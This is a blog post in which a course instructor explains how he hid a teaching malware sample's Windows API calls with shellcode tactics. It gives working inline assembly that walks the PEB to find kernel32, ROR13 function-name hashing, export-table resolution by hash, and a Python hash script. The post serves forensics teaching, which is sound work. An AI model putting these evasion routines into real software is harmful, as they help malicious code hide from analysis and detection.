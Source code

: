 ```yaml
---
layout: post
title: "Shellcode Techniques in C++"
date: 2015-06-11
permalink: blog/shellcodeTechniquesCPP/
---
```


Recently I wrote a piece of malware for a [memory forensics course](http://www.tophertimzen.com/cs407/) I was teaching at Southern Oregon University. My intention was to write a sample that correlated with the back end of the courses, GUI artifacts, persistence the usage of IDA. I decided that I wanted to obfuscate the majority of Windows API calls I needed to use using shellcode tactics. An old colleague had introduced me to these techniques and I wanted to implement them again for my students as I had had already introduced them to shellcode techniques such as parsing the PEB and PE space to resolve functions, and wanted to give them a challenge. I utilized the technique of hashing function names with ROR13, extracting Kernel32's base address from the PEB and loading additional libraries with LoadLibraryA. 

Because I choose to write the malware in C++ performing inline assembly was easy. 

Firstly, I wrote three inline assembly functions that I could use throughout my malware to find the base address of kernel32, hashing a string, and resolve exports by enumerating the IMAGE_EXPORT_DIRECTORY in the PE header. 

{% highlight cpp %}

__declspec(naked)unsigned int FindKernel32()
{
	__asm{
		mov eax, fs:[0x30 ];    // get a pointer to the PEB
		mov eax, [eax + 0x0C];  // get PEB->Ldr
		mov eax, [eax + 0x14];  // get PEB->Ldr.InMemoryOrderModuleList.Flink
		mov eax, [eax];         // get the next entry (2nd entry)
		mov eax, [eax];         // get the next entry (3rd entry)
		mov eax, [eax + 0x10];  // get the 3rd entries base address (kernel32.dll)
		ret;
	};
}

{% endhighlight %}

Next I wrote a function to hash a string using a form of ROR13. 

{% highlight cpp %}

unsigned int __stdcall hashString(char* symbol)
{
	__asm 
	{
		mov esi, symbol;
		xor edi, edi;
		xor eax, eax;
		cld;
	continueHashing:
		lodsb;
		test al, al
		jz hash_done;
		ror edi, 0xd;
		add edi, eax;
		jmp  continueHashing;
	hash_done:
		mov eax, edi;
	};
}

{% endhighlight %}

Lastly I wrote in inline assembler the logic to parse through the PEB of a library once I had its base address to resolve the base address of a function while also utilizing the above hashing function. 

{% highlight cpp %}

unsigned int __stdcall findSymbolByHash(unsigned int dllBase, unsigned int symHash)
{
	__asm 
	{
		pushad;
		mov edi, symHash;
		mov ebp, dllBase;
		mov eax, [ebp + 0x3c];        //PEheader
		mov edx, [ebp + eax + 0x78];  //export table
		add edx, ebp;
		mov ecx, [edx + 0x18];        //numberOfNames
		mov ebx, [edx + 0x20];        //numberOfExports
		add ebx, ebp;
	search_loop:
		jecxz noHash;
		dec ecx;                      //decrement numberOfNames
		mov esi, [ebx + ecx * 4];     //get an export name
		add esi, ebp;
		push ecx; 
		push ebx;
		push edi;
		push esi;                     //setup stack frame and save clobber registers 
		call hashString;              
		pop edi;
		pop ebx;
		pop ecx;                      //restore clobber registers              
		cmp eax, edi;                 //check if hash matched  
		jnz search_loop;
		mov ebx, [edx + 0x24];        //get address of the ordinals
		add ebx, ebp;
		mov cx, [ebx + 2 * ecx];      //current ordinal number
		mov ebx, [edx + 0x1c];       //extract the address table offset
		add ebx, ebp;
		mov eax, [ebx + 4 * ecx];    //address of function 
		add eax, ebp;
		jmp done;
	noHash:
		mov eax, 1;
	done:
		mov[esp + 0x1c], eax;
		popad;
	};
}

{% endhighlight %}

From there, function pointers can be utilized to call Windows API functions. Because these functions will be obfuscated, new typedefs will need to be created that return and take in the correct Windows API types. 

For example, the Windows API call CreateMutexEx appears as follows

{% highlight batch %}

HANDLE WINAPI CreateMutexEx(
  _In_opt_ LPSECURITY_ATTRIBUTES lpMutexAttributes,
  _In_opt_ LPCTSTR               lpName,
  _In_     DWORD                 dwFlags,
  _In_     DWORD                 dwDesiredAccess
);

{% endhighlight %}

This function will be used to create a named Mutex to ensure the malware is only running one instance of itself on an infected machine. 

In order to implement this function obfuscated, the below typedef will be used

{% highlight cpp %}

typedef HANDLE(__stdcall *CreateMutex)(LPSECURITY_ATTRIBUTES, LPCTSTR, DWORD, DWORD);

{% endhighlight %}

Now that the function prototype is known the address of it must be resolved. To do this, the base address of Kernel32 must be discovered, the function hashed and the function resolved. 

To obtain the base address of Kenrel32 simply call FindKernel32(). 

{% highlight cpp %}

unsigned int kernel32BaseAddr = FindKernel32();

{% endhighlight %}

The ROR13 hash of a function, CreateMutexA, must also be resolved. To obtain a hash you can call the hashString() function or use the below python script 

{% highlight python %}

import time, sys

def ror( dword, bits ):
  return (( dword >> bits | dword << ( 32 - bits ) ) & 0xFFFFFFFF)

def hash(function, bits=13, print_hash=True ):
  function_hash = 0
  for c in str( function ):
    function_hash  = ror( function_hash, bits ) 
    function_hash  = (function_hash + ord(c))
  
  if print_hash:
    function_hash = function_hash & 0xFFFFFFFF
    print "[+] 0x%02X = %s" % ( function_hash, function )
  return function_hash
  

def main( argv=None ):
  if not argv:
    argv = sys.argv
  try:
    if len( argv ) != 2:
      print "Usage: ror13.py <function name>"
    else:
      print "[+] Ran on %s\n" % (  time.asctime( time.localtime() ) )
      hash( argv[1] )
  except Exception, e:
    print "[-] ", e
	
if __name__ == "__main__":
  main()

{% endhighlight %}

{% highlight batch %}

C:\Users\Topher>c:\bin\ror13.py CreateMutexExA
[+] Ran on Thu Jun 11 09:58:55 2015

[+] 0xBCE81294 = CreateMutexExA

{% endhighlight %}

In order to resolve this function by hash, a call to findSymbolByHash will be made with the address of kernel32 and the ror13 hash. 

{% highlight cpp %}

CreateMutex CreateMutex_Func = (CreateMutex)(findSymbolByHash(kernel32BaseAddr, 0xBCE81294));

{% endhighlight %}

CreateMutexExA can now be called 

{% highlight cpp %}

HANDLE created = CreateMutex_Func(0, "IkFyZSB5b3UgaGF2aW5nIGZ1biB3aXRoIHRoaXMgbGFiPyIgDQo=", 0, MUTEX_ALL_ACCESS);

{% endhighlight %}

Any API call from Kernel32 can now be used in an obfuscated manner. Calls from other modules can also be used with a call to LoadLibraryA. 

Using the same methods above, the address of LoadLibraryA can be discovered at runtime. 

{% highlight cpp %}

typedef unsigned int(__stdcall *FunPtr_LoadLibrary)(LPCSTR);

unsigned int getLibrary(char *libraryName)
{
	FunPtr_LoadLibrary MyLoadLibraryA;
	MyLoadLibraryA = (FunPtr_LoadLibrary)(findSymbolByHash(kernel32BaseAddr, 0xEC0E4E8E));
	unsigned int baseAddr = MyLoadLibraryA(libraryName);
	return baseAddr;
}

{% endhighlight %}

Just call getLibrary() with the name of the module that needs to be loaded. 

{% highlight cpp %}

unsigned int user32BaseAddr = getLibrary("user32.dll");

{% endhighlight %}

Now calls can be made into findSymbolByHash with user32BaseAddr and a function hash from that module. 

As shown, utilizing shellcode techniques in C++ is relatively straight forward once the supporting functions are written. 